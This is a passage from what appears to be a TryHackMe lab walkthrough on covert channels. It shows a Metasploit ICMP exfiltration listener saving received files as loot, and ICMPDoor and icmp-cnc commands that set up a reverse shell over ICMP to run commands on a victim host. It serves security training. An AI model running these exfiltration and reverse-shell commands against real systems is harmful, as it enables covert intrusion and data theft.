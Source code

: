 Receiving Data in MSF  

```markup
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data received in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20220425212408_default_ATTACKBOX_IP_icmp_exfil_838825.txt
```

Nice! We have successfully transferred data over the ICMP protocol using the Metasploit Framework. You can check the loot file mentioned in the terminal to confirm the received data.

## ICMP C2 Communication

Next, we will show executing commands over the ICMP protocol using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool. ICMPDoor is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier in this task, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

![C2 Communication over ICMP](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/c4c0b7beeaa41fd5b4a4f4cbe1ded82e.png)  

We have prepared the tools needed for C2 communication over the ICMP protocol on **JumpBox** and the **ICMP-Host** machines. First, we need to log in to the ICMP machine,icmp.thm.com, and execute the icmpdoor binary as follows,

Run the icmpdoor command on the ICMP-Host Machine  

```markup
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133
```

Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the JumpBox and execute the icmp-cnc binary to communicate with the victim, our ICMP-Host. Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine. 

The data that needs to be transferred  

```markup
thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: hostname
hostname
shell: icmp-host
```

Similar to the client-side binary, ensure to select the interface for the communication as well as the destination IP. As the previous terminal shows, we requested to execute the hostname command, and we received icmp-host.
